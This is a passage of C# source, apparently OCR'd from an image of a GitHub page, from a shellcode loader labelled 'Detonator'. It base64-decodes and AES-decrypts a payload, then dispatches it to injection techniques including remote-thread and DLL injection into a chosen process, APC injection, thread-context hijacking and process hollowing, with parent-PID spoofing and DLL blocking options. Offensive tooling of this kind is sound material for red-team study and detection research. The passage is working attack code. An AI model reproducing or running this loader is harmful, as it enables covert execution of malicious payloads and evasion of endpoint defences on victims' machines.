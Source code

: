 ```
		}
		else
		{
			Console.WriteLine("(Detonator) [*] Loading shellcode from base64 input");
			data = Convert.FromBase64String(text2);
		}
		byte[] array = new AES(password).Decrypt(data);
		int ppid = 0;
		try
		{
			ppid = int.Parse(dictionary["/ppid"]);
		}
		catch (Exception)
		{
		}
		bool blockDlls = false;
		try
		{
			if (bool.Parse(dictionary["/blockDlls"]))
			{
				blockDlls = true;
			}
		}
		catch (Exception)
		{
		}
		switch (text)
		{
		case "functionpointer":
			FunctionPointer.Execute(array);
			break;
		case "functionpointerv2":
			FunctionPointerV2.Execute(array);
			break;
		case "clipboardpointer":
			ClipboardPointer.Execute(array);
			break;
		case "currentthread":
			CurrentThread.Execute(array);
			break;
		case "currentthreaduuid":
			CurrentThreadUuid.Execute(Encoding.UTF8.GetString(array));
			break;
		case "remotethread":
			RemoteThread.Execute(array, int.Parse(dictionary["/pid"]));
			break;
		case "remotethreaddll":
			RemoteThreadDll.Execute(array, int.Parse(dictionary["/pid"]), dictionary["/dll"]);
			break;
		case "remotethreadview":
			RemoteThreadView.Execute(array, int.Parse(dictionary["/pid"]));
			break;
		case "remotethreadsuspended":
			RemoteThreadSuspended.Execute(array, int.Parse(dictionary["/pid"]));
			break;
		case "remotethreadapc":
			RemoteThreadAPC.Execute(array, dictionary["/image"], ppid, blockDlls);
			break;
		case "remotethreadcontext":
			RemoteThreadContext.Execute(array, dictionary["/image"], ppid, blockDlls);
			break;
		case "processhollow":
			ProcessHollow.Execute(array, dictionary["/image"], ppid, blockDlls);
```
